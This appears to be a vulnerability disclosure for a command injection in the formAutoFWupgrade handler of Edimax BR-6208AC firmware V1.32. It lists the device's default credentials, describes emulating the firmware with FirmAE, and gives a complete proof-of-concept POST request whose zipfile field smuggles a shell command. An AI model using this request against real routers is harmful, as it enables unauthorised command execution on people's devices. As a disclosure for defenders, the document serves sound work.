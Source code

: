 ## **Description**

A command injection and buffer overflow vulnerability was discovered in the Edimax BR-6208AC firmware version ​**V1.32**. The vulnerability arises from the improper input validation of the `zipfile` parameter in the 'formAutoFWupgrade' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: BR-6208AC
- ​**Version**: V1.32

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/BR-6208AC_1.32.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formAutoFWupgrade' is below:
![vulner_code.png](./img/vulner_code.png)

- ​**websGetVar** retrieves POST parameters.
- **system()** is used without check, resulting a command injection in this place


## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formAutoFWupgrade HTTP/1.1  
Host: 192.168.2.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 70  
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==  
Connection: close  
Referer: http://192.168.2.1/wireless_basic.asp
Upgrade-Insecure-Requests: 1  
  
action=vpn&tftpsIP=192.168.2.2&zipfile=;echo poc>/poc.txt;&md5file=123
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)